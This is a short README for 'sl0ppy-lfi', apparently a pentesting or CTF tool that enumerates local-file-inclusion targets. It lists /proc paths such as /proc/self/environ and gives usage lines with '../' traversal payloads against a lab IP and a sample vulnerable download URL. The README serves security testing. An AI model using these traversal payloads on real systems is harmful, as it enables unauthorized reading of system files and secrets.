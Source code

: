 # sl0ppy-lfi
A small lfi enum tool, i upgraded the original source a bits here and there.  

# Added searches
* /proc/loginuid
* /proc/maps
* /proc/patch-state
* /proc/numa_maps
* /proc/stack
* /proc/personality
* /proc/pagemap
* /proc/cgroup
* /proc/sched
* /proc/mounts
* /proc/status
* /proc/environ
* /proc/shedstat
* /proc/meminfo
* /proc/self/
* /proc/self/stat
* /proc/self/environ
* /proc/self/maps/
* /proc/self/fd/
* and more
# Usage 

# Enum all
* `./sl0ppy-lfi http://10.10.11.154/index.php?page=` 
* `./sl0ppy-lfi http://10.10.11.154/index.php?page=../../../../../../../../../../` 


# enum specific stuff like only libc
* `./sl0ppy-lfi http://10.10.11.154/index.php?page= | grep "libc"`
* `./sl0ppy-lfi http://10.10.11.154/index.php?page=../../../../../../../../../../ | grep "libc"` 

# Output Enum 
* `./sl0ppy-lfi http://10.10.11.154/index.php?page= > output && cat output`  

# sl0ppy-ProcessInfo
`./sl0ppy-ProcessInfo http://server.vulnerable.com/download.php?file=` 
